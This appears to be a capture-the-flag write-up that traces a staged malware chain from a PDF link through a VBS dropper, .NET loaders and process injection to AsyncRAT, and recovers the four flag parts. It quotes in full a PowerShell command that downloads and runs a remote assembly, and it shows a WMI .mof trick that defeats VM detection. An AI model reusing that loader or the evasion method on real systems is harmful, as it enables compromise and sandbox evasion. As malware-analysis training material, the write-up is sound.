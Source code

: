 # PDF

Opening the PDF, there is a link at the bottom.

![](screenshots/1.png)

`hxxp://192.168.100[.]100/microsoft/get-offer/`

# Payloads

There were multiple payloads hosted on the webserver. They are in a password protected zip (password: `infected`), as they behave like malware.

[payloads.zip](workdir/payloads.zip)

# Link

Opening the `get-offer` link downloads the [payloads.zip\Job_Offer.pdf.uue.bin](workdir/payloads.zip) file as `Job_Offer.pdf.uue`. It is actually a rar file, and contains `Job_Offer.pdf.vbs`.

# VBS

Using procmon, or replacing the `WWUP.Run` part reveals that it is running a powershell payload.

```cmd
%comspec% /c powershell.exe "[Byte[]] $rOWg = [system.Convert]::FromBase64string((New-Object Net.WebClient).DownloadString('http://192.168.100.100/msb/update.txt'));[system.Reflection.assembly]::Load($rOWg).GetType('fiber.Home').GetMethod('VAI').Invoke($null, [object[]] ('0-.<AQ?&x-*@0-.<AQ.a-+qq]x)D7%{*(11_=qw0]]53^iqB7%cq(^7X>.`!]{*(11_=qC.lM9`~CH-+qq]x)00cq(^7X>.`!].00cq(^7X>.`!].86cq(^7X>.`!].(^7X>.9cq(^7X>.`!]-+qq]x)-+qq]x)((:-+qq]x)02-p0-.<AQ0-.<AQ.z)*|?'))"
```

# Powershell

The powershell payload is downloading `hxxp://192.168.100[.]100/msb/update.txt` base64 encoded dotnet dll and loads it as assembly, then calling `fiber.Home.VAI` method to decode and run the next stage. 

# fiber.dll

The [dnSpyEx](https://github.com/dnSpyEx/dnSpy) can be used for decoding the script.

![](screenshots/2.png)

It is copying the active VBS file into the temp folder and downloading 2 more files.

The url parameter from the previous step is decoded by reversing it and doing a bunch of replaces: `hxxp://192.168.100[.]100/HCSC_1%7BN0w_%7D/a.txt`. This is the first part of the flag (`HCSC_1{N0w_}`). The file is reversed and base64 decoded afterwards.

The second url is hardcoded and just reversed: `hxxp://192.168.100[.]100/teams/schema.xml`. The file has some replacement and the it is base64 decoded as well.

The decoded `schema.xml` is another dotnet dll that, it is loaded, and the `fsociety.Tools.Ande` method is called with `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` and the decoded `a.txt`.

There is also a call to `Optical.startup` at the end.

![](screenshots/3.png)

This is dropping some persistency lnk file in the startup folder, with the 4th part of the flag in the description (`HCSC_4{3vRyThlNg!!1}`).

# Efsociety.dll

Following the function, it is calling `RunHandle` and then `HandleRun`.

It is essentially starting the passed `RegSvcs.exe` and injecting the passed block of memory into the process, taking it over. It was yet an another dotnet executable.

There is a variable at the start that contains the second part of the flag (`HCSC_2{y0U_t0TallY_4r3_}`).

![](screenshots/4.png)

# AsyncRAT

The executable is obfuscated. It can be ran standalone as well, the entry point is at `xWNkwSBQveQBO.vSmzaqyhqvbwx.Main`. The 3rd part of the flag is right there at the start (`HCSC_3{aDm1nnn_0F_}`).

![](screenshots/5.png)

# Flag
`HCSC{N0w_y0U_t0TallY_4r3_aDm1nnn_0F_3vRyThlNg!!1}`

# Bonus

Unfortunately the lnk part was not found at first, and there was significantly more time invested in the reversing of the obfuscated binary :)

The dnSpy can also debug and patch the application. 

## VM detection

There are some VM detection. The check for `Win32_ComputerSystem` can be patched out, but I usually prefer not tampering the binary, not to trigger some anti tampering part if there is an easy solution.

Creating a `.mof` file and loading with [mofcomp](https://learn.microsoft.com/en-us/intune/configmgr/develop/osd/how-to-create-a-mof-file-for-a-configuration-manager-custom-action) can override this.

```
#PRAGMA AUTORECOVER
#pragma namespace ("\\\\.\\root\\CIMv2")

class Win32_ComputerSystem
{
    [key]
    string Manufacturer;
};

[DYNPROPS]
instance of Win32_ComputerSystem
{
    Manufacturer = "deathbaron.org";
};
```

![](screenshots/6.png)

## Configuration

The configuration is decoded in `xWNkwSBQveQBO.IRGpljjxetb.FaZxEMhgSUVh`. Stopping there can uncover the configuration.

![](screenshots/7.png)

## Source code

After uncovering some configuration strings (especially the certificate), I found the [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) project. Using the source code next to the obfuscated one greatly improved the reversing. 

## Server

Firing the server side of the AsyncRAT on the configured host `127.0.0.1` and ports `6606,7707,8808` and patching the certificate check on the binary (`pjbFLayXYYYYin.GzJsjMJgIiLI.CojCfpVsTbtt` from `RemoteCertificateValidationCallback`) works.

![](screenshots/8.png)

![](screenshots/9.png)

## No flag

Unfortunately there was no more flag hidden in this rabbit hole.